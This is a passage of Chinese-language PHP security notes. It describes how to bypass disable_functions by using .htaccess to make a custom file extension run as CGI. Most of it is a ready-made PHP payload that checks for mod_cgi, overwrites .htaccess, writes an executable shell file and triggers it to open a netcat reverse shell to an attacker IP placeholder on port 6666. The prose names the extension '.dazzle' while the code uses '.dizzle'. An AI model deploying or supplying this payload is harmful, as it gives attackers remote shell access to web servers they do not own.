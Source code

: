 在.htaccess 中添加以下内容，指定.dazzle为结尾的文件为CGI脚本程序并且允许本目录执行，我们只要同时上传一个.dazzle的shell就可以了。

```bash
Options +ExecCGI
AddHandler cgi-script .dizzle
```

现成payload - 》反弹shell：

```php
<?php
$cmd = "nc -c '/bin/bash' 攻击者IP 6666"; //command to be executed
$shellfile = "#!/bin/bash\n"; //using a shellscript
$shellfile .= "echo -ne \"Content-Type: text/html\\n\\n\"\n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>\n";
}
if (!isset($_GET['checked']))
{
    @file_put_contents('.htaccess', "\nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
    $writable = is_writable('.'); //current dir writable?
    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
        checkEnabled("Is writable",$writable,"Yes","No");
        checkEnabled("htaccess working",$htaccess,"Yes","No");
    if(!($modcgi && $writable && $htaccess))
    {
        echo "Error. All of the above must be true for the script to work!"; //abort if not
    }
    else
    {
        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGI\nAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
        echo "Executing the script now. Check your listener <img src = 'shell.dizzle' style = 'display:none;'>"; //call the script
    }
}
?>
```

### [通过Antsword看绕过disable_functions](https://www.anquanke.com/post/id/195686#h3-3)

# PHP安全练习网站

https://www.ripstech.com/php-security-calendar-2017/